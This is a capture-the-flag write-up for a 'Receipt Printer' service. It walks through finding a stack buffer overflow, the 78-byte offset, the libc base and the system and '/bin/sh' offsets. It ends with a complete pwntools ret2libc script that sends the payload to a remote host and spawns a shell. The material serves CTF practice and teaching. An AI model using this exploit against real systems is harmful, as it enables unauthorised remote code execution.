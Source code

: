 # Receipt Printer

## ✨ Walkthrough

### Identifying the Vulnerability

The programme will ask for the input of order ID and I just enter a random input but nothing interesting happen. That said, let’s try to overflow the buffer hoping something will pop up. We got an error due to segmentation fault after inserting like 100 characters, which mean that it is **buffer overflow** vulnerability. Beside that, the value inside EIP was replaced with our input, which mean that we can overwrite the stack as well (***ret2libc chal**, right?*).

### Part 1 – Finding the offset for padding

After manually debug the programme using the *vanilla gdb sobsob*, we managed to find the size of the *local variable* in order to reach the EIP which is 78.

### Part 2 – Finding the base address of libc

**Command used** > `ldd receipt_app`

> *“ldd command is used to find out the shared libraries required by a programme” – Google.*

We also can use this command to obtain the directory and address for each library embedded in the binary.

```
team09@debugger:/opt/receiptprinter$ ldd receipt_app
     linux-gate.so.1 (0xf7fc7000)
     libreceipt.so => /usr/local/lib/libreceipt.so (0xf7fb4000)
     libdb.so => /usr/local/lib/libdb.so (0xf7faf000)
     libmariadb.so.3 => /lib/i386-linux-gnu/libmariadb.so.3 (0xf7f68000)
     libc.so.6 => /lib/i386-linux-gnu/libc.so.6 (0xf7d40000)
     libz.so.1 => /lib/i386-linux-gnu/libz.so.1 (0xf7d23000)
     libssl.so.3 => /lib/i386-linux-gnu/libssl.so.3 (0xf7c73000)
     libcrypto.so.3 => /lib/i386-linux-gnu/libcrypto.so.3 (0xf7826000)
```

After executing the command, we can find the base address of libc which is 0xf7d40000.

### Part 3 – Finding the system’s address and binsh’s address

**Command used** > `readelf -s libc.so.6 | grep system`

```
ctfuser@fortress:/lib/i386-linux-gnu$ readelf -s libc.so.6 | grep system
   3172: 0004c910    55 FUNC    WEAK   DEFAULT   15 system@@GLIBC_2.0
```

**Command used** > `strings -tx libc.so.6 | grep /bin/sh`

```
ctfuser@fortress:/lib/i386-linux-gnu$ strings -tx libc.so.6 | grep /bin/sh
   1b5faa /bin/sh
```

By using these commands, we able to get the offset for system and shell.  The actual addresses can be obtained by adding these values with the libc’s base address.

## ⚙ Exploit Script

In short, the payload sent will fill in the `local variable` first and then followed by the `system` function with `/bin/sh` as argument to spawn the shell.

Sorry for the poor script *shshsh* since it didn’t automate the process of exploitation and obtaining the flag from many teams. We’re running out of time *lmao* since we solved it like 2 hours before the times up (*nahhh, I’m just bad at it*). Nevertheless, it can be improved for sure. *Once again, sorry* 🙏🏻.

```python
from pwn import *

ip = "172.16.XXX.XX"
p = remote(ip, 9100)

libc_base = 0xf7d40000
system = libc_base + 0x4c910
binsh = libc_base + 0x1b5faa

payload = b'A'*78 + p32(system) + b'b'*4 + p32(binsh)

p.sendlineafter(b"Enter Order ID: ", payload)
p.sendline(b'cd ../../..')
p.sendline(b'usr/local/bin/flag')

p.interactive()
p.close()
```